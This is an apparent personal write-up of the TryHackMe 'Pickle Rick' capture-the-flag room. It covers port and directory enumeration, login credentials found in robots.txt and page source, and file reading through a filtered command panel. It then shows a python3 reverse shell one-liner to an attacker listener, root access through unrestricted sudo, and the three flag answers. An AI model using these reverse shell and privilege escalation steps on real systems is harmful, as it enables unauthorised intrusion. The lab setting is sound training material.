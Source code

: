 https://tryhackme.com/room/picklerick

BoxIP = 10.10.233.219

**Basic Enumeration**


nmap -sC -sV -Pn -oN nmap_initial 10.10.233.219

-sC = common scripts

-sV = Versioning

-Pn = no pings

-oN output notation


**Open Ports**

Open 10.10.233.219:22

Open 10.10.233.219:80



**automated web enumeration**

nikto -h 10.10.233.219

gobuster dir -u http://10.10.233.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php 

/assets

/portal.php

/robots.txt


**robots.txt**

Wubbalubbadubdub


**Page source points of interest**

homepage = 

    Note to self, remember username!

    Username: R1ckRul3s

  
 **/protals.php**

using the found username and the word from robots.txt grants us access to a command panel page
 
 
 **Initial Foothold**

There is some filtering on the command pannel for concatonation and some other commands but using 'strings' command allows us to read files
 Ingredient 1 = mr. meeseek hair
 
 
 Using Netcat does not work but puttering around I found that python3 was usable on the system. Using revshells.com I grabbed a python3 reverse shell script

cdexport RHOST="10.9.2.110";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
 
 and we popped a shell on a NC listener
 
Navigating to a home directory for Rick we find the second ingredient
Ingredient 2 = 1 jerry tear

**PrivEsc**
 sudo -l
    Matching Defaults entries for www-data on
        ip-10-10-95-19.eu-west-1.compute.internal:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on
            ip-10-10-95-19.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL


well this is going to be easy

www-data@ip-10-10-95-19:/home/rick$ sudo su

sudo su

root@ip-10-10-95-19:/home/rick# whoami

whoami

root

root@ip-10-10-95-19:/home/rick# 


We have gotten root now lets find that last ingredient

Ingredient 3: fleeb juice




 
 
  

